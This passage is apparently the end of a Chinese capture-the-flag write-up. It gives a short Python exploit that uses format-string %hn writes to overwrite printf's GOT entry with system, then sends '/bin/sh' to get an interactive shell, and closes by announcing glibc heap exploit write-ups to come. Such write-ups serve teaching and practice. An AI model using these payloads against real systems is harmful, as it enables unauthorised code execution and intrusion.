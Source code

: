 ```python
# [nop2] = printgot + 2
payload = "%" + str((printfgot + 2) & 0xffff) + "c%10$hn"
p.recvuntil("\n")
p.sendline(payload)

# [printgot] = system
payload = "%" + str(system >> 16 & 0xffff) + "c%11$hn" + "%" + str(((system & 0xffff) - (system >> 16 & 0xffff)) & 0xffff) + "c%7$hn"
p.recvuntil("\n")
p.sendline(payload)

p.recvuntil("\n")
p.sendline("/bin/sh\x00")
p.interactive()	

```



------

本篇到此为止，接下来是glibc heap exploit的题解。

















